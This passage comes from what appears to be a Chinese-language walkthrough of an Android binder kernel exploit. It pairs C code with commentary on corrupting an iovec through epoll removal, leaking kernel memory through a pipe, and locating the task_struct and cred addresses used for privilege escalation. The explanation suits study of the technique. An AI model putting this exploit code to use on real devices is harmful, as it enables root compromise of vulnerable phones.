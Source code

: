 ```
        }

        exit(EXIT_SUCCESS);

    }

```

sleep(2); 是为了等主线程执行完上述步骤

epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event); 破坏掉我们的 iovc, 将 iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base 改为 wait.head.next 原本在 binder_thread 的地址

nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer)); 解除阻塞，返回到主线程

```
 ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);

```

继续执行 writev, iovecStack[IOVEC_WQ_INDEX] 已经写入管道，并在子线程中读取了, 管道清空，接着执行 iovecStack[IOVEC_WQ_INDEX+1], 注意这里的 iovecStack[IOVEC_WQ_INDEX+1].base 已经改为了 wait.head.next 原本在 binder_thread 的地址，因此会将 wait.head.next 原本在 binder_thread 的地址开始的剩余内容写入管道

```
 if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);

```
